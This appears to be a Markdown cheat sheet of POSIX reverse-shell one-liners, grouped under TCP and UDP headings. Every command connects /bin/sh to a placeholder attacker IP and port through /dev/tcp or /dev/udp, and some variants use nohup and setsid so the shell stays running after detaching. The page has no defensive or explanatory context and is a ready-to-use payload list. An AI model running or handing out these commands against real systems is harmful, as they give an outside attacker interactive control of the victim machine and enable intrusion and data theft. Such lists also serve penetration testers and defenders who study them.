 # POSIX

## 01 - TCP Protocol

One-liners.

```
$ /bin/sh -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1

$ nohup setsid /bin/sh -c '/bin/sh -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'

$ nohup 0<&103-;exec 103<>/dev/tcp/<attacker_IP>/<attacker_PORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

## 02 - UDP Protocol

One-liners.

```
$ /bin/sh -i >& /dev/udp/<attacker_IP>/<attacker_PORT> 0>&1

$ nohup setsid /bin/sh -c '/bin/sh -i >& /dev/udp/<attacker_IP>/<attacker_PORT> 0>&1'

$ nohup 0<&103-;exec 103<>/dev/udp/<attacker_IP>/<attacker_PORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```